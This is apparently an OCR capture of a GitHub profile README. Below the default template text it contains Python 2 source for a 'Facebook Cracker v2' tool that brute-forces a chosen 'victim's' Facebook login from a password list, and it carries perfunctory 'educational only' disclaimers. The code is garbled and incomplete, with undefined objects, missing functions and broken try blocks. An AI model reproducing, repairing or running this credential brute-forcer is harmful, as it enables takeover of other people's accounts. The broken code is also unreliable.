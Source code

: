 - 👋 Hi, I’m @Zaydwahab
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Zaydwahab/Zaydwahab is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
#!usr/bin/python
#Facebook Cracker Version 2 can crack into Facebook Database 100% without Interruption By
Facebook Firewall !
#This program is for educational purposes only.
#Don't attack people facebook accounts it's illegal !
#If you want to crack into someone's account, you must have the permission of the user.
#InfosecHacker is not responsible.
import sys
import random
import mechanize
import cookielib
GHT = '''
+=========================================+
|..........Facebook Cracker v 2...........|
+-----------------------------------------+
|#Author: InfoSecHacker |
|#Contact: www.twitter.com/abhishekmani002|
|#Date: 23/10/2015 |
|#This tool is made for pentesting. |
|#Changing the Description of this tool |
|Won't made you the coder ^_^ !!! |
|#Respect Coderz ^_^ |
|#I take no responsibilities for the |
| use of this program ! |
+=========================================+
|..........Facebook Cracker v 2...........|
+-----------------------------------------+
'''
print "Note: - This tool can crack facebook account even if you don't have the email of your
victim"
print "# Hit CTRL+C to quit the program"
print "# Use www.graph.facebook.com for more infos about your victim ^_^"
email = str(raw_input("# Enter |Email| |Phone number| |Profile ID number| |Username| : "))
passwordlist = str(raw_input("Enter the name of the password list file : "))
useragents = [('User-agent', 'Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1)
Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1')]
br.set_handle_equiv(True)
br.set_handle_referer(True)
br.set_handle_redirect(True)
br.set_cookiejar(cj)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
except KeyboardInterrupt:
print "\n[*] Exiting program ..\n"
sys.exit(1)
try:
list = open(passwordlist, "r")
passwords = list.readlines()
k = 0
while k < len(passwords):
passwords[k] = passwords[k].strip()
k += 1
except IOError:
print "\n [*] Error: check your password list path \n"
sys.exit(1)
except KeyboardInterrupt:
print "\n [*] Exiting program ..\n"
sys.exit(1)
try:
print GHT
print " [*] Account to crack : %s" % (email)
print " [*] Loaded :" , len(passwords), "passwords"
print " [*] Cracking, please wait ..."
except KeyboardInterrupt:
print "\n [*] Exiting program ..\n"
sys.exit(1)
try:
search()
attack(password)
except KeyboardInterrupt:
print "\n [*] Exiting program ..\n"
sys.exit(1)
if __name__ == '__main__':
    check()
   
